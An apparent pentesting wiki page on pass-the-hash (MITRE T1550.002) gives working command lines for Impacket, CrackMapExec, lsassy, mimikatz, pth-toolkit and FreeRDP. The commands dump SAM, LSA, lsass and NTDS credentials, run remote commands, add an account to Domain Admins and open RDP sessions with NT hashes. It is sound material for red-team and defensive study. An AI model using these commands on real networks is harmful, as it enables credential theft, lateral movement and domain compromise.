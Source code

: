 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.002
---
```


# Pass the hash

## Theory

An attacker knowing a user's NT hash can use it to authenticate over NTLM (pass-the-hash) (or indirectly over Kerberos with [overpass-the-hash](../kerberos/ptk.md)).

## Practice

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) (Python) ([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python), [FreeRDP](https://github.com/FreeRDP/FreeRDP) (C), [mimikatz](https://github.com/gentilkiwi/mimikatz) (C), [lsassy](https://github.com/Hackndo/lsassy) (Python), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) and many more.

{% tabs %}
{% tab title="Credentials dumping" %}
The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) has the ability to remotely dump hashes and LSA secrets from a machine (`LMhash` can be empty) (see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)).

```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)).

```bash
crackmapexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)).

```bash
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```
{% endtab %}

{% tab title="Command execution" %}
Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash (`LMhash` can be empty).

```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can pass-the-hash and open an elevated command prompt.

```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
{% endtab %}

{% tab title="AD operations" %}
The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) can be used from a Linux system to operate LDAP queries, add a user to a group and so on (`LMhash` can be `ffffffffffffffffffffffffffffffff`).

```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```
{% endtab %}

{% tab title="RDP access" %}
[FreeRDP](https://github.com/FreeRDP/FreeRDP) (C) has the ability to do pass-the-hash for opening RDP sessions.

```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```
{% endtab %}
{% endtabs %}

### Limitations, tips and tricks

{% hint style="warning" %}
**UAC limits pass-the-hash**

UAC (User Account Control) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account (RID-500, "Administrator") to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights
{% endhint %}

{% hint style="info" %}
**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.
{% endhint %}

{% hint style="info" %}
**Machine accounts**

Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights (such as [SAM & LSA secrets dump](../credentials/dumping/sam-and-lsa-secrets.md)). These operations can instead be conducted with a [Silver Ticket](../kerberos/forged-tickets/#silver-ticket) since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

A domain controller machine account's NT hash can be used with pass-the-hash to [dump the domain hashes (NTDS.dit)](broken-reference).
{% endhint %}

## References

{% embed url="https://en.hackndo.com/pass-the-hash/" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
